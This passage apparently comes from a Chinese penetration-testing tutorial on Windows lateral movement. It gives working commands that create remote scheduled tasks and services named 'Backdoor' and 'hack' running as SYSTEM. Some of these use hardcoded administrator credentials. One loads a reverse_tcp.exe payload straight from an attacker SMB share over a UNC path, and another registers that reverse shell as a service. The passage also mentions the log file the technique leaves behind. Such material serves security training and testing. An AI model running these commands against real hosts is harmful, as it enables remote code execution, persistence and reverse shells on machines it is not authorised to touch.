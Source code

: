 -   删除计划任务 shell

```plain
schtasks /Delete /S 192.168.1.131 /TN Backdoor /F
```

也可以通过计划任务执行系统命令，将执行结果写入文件，然后使用 type 命令查看文件

```plain
schtasks /Create /S 192.168.1.131 /TN Backdoor /SC minute /MO 1 /TR "c:\windows\system32\cmd.exe /c 'whoami' > c:\users\public\result.txt" /RN System /F


type \\192.168.1.131\C$\users\public\result.txt
copy C:\Users\Administrator\Desktop\hack.bat \\192.168.1.131\c$\Windows\Temp

schtasks /create /tn hack /tr C:\Windows\Temp\hack.bat /sc ONSTART /s 192.168.1.131 /ru "system" /u administrator /p 123qwe@

schtasks /run /tn hackk /s 192.168.1.131

type \\192.168.1.131\c$\Windows\Temp\result.txt

schtasks /delete /s 192.168.1.131 /u administrator /p 123qwe@ /tn hackk /f
```

**注意：在使用 schtasks 命令时，会在系统中留下日志文件 C:\\Windows\\Tasks\\SchedLgU.txt。**

### [UNC 路径加载执行](#toc_unc)

Windows 系统使用 UNC 路径来访问网络共享资源，格式为

```plain
\\servername\sharename\directory\filename # servername 服务器；sharename 网络共享名字
```

攻击载荷在远程主机上时，可以直接使用 UNC 路径代替常规的本地路径，让目标主机直接在测试人员搭建的 Smb 共享中加载攻击载荷并执行。这样可以省去手动上传载荷的步骤。

例如：

```plain
schtasks /Create /S 192.168.1.131 /TN Backdoor /SC minute /MO 1 /TR \\192.168.1.1\mysmb\reverse_tcp.exe /RN System /F
```

### [sc（系统服务）](#toc_sc)

创建远程服务需要拥有**两端主机的管理员权限（要创建服务）**和 IPC 连接，具体操作：

1.  利用已建立的共享连接向远程主机上传攻击载荷 reverse\_tcp.exe
2.  利用已建立的 IPC 连接在远程主机上创建系统服务 shell

```plain
sc \\192.168.1.131 create Backdoor binpath= "cmd.exe /k c:\users\public\reverse_tcp.exe"
# binpath 的等号后面需要有一个空格
```

-   删除服务 shell
